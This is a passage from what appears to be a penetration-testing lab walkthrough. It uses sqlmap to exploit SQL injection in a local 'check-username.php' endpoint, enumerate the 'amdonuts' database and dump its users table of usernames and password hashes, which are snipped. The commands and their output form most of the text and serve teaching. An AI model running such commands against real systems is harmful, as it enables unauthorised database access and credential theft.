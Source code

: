 ```powershell
PS C:\htb> python .\sqlmap.py -u http://localhost/api/check-username.php?u=maria -batch -D amdonuts --tables

<SNIP>
[17:57:26] [INFO] fetching tables for database: amdonuts
[17:57:26] [INFO] fetching number of tables for database 'amdonuts'
[17:57:26] [INFO] resumed: 1
[17:57:26] [INFO] resumed: dbo.users
Database: amdonuts
[1 table]
+-------+
| users |
+-------+

[17:57:26] [INFO] fetched data logged to text files under 'C:\Users\bill\AppData\Local\sqlmap\output\localhost'

[*] ending @ 17:57:26 /2022-12-12/

```

In this case, `users` is the only table in the database. We can dump it with the following command. Note that we excluded the `-batch` flag this time. This is because SQLMap will try to crack hashes by default, which I'm not interested in doing.

```powershell
PS C:\htb> python .\sqlmap.py -u http://localhost/api/check-username.php?u=maria -D amdonuts -T users --dump

<SNIP>
[17:59:58] [INFO] fetching columns for table 'users' in database 'amdonuts'
[17:59:59] [INFO] resumed: 2
[17:59:59] [INFO] resumed: password
[17:59:59] [INFO] resumed: username
[17:59:59] [INFO] fetching entries for table 'users' in database 'amdonuts'
[17:59:59] [INFO] fetching number of entries for table 'users' in database 'amdonuts'
[17:59:59] [INFO] resumed: 3
[17:59:59] [WARNING] in case of table dumping problems (e.g. column entry order) you are advised to rerun with '--force-pivoting'
[17:59:59] [INFO] resumed: <SNIP>
[17:59:59] [INFO] resumed: maria
[17:59:59] [INFO] resumed: <SNIP>
[17:59:59] [INFO] resumed: admin
[17:59:59] [INFO] resumed: <SNIP><SNIP>
[17:59:59] [INFO] resumed: bmdyy
[17:59:59] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: amdonuts
Table: users
[3 entries]
+----------------------------------+----------+
| password                         | username |
+----------------------------------+----------+
| ...SNIP...                       | maria    |
| ...SNIP...                       | admin    |
| ...SNIP...                       | bmdyy    |
+----------------------------------+----------+

[18:00:02] [INFO] table 'amdonuts.dbo.users' dumped to CSV file 'C:\Users\bill\AppData\Local\sqlmap\output\localhost\dump\amdonuts\users.csv'
[18:00:02] [INFO] fetched data logged to text files under 'C:\Users\bill\AppData\Local\sqlmap\output\localhost'
```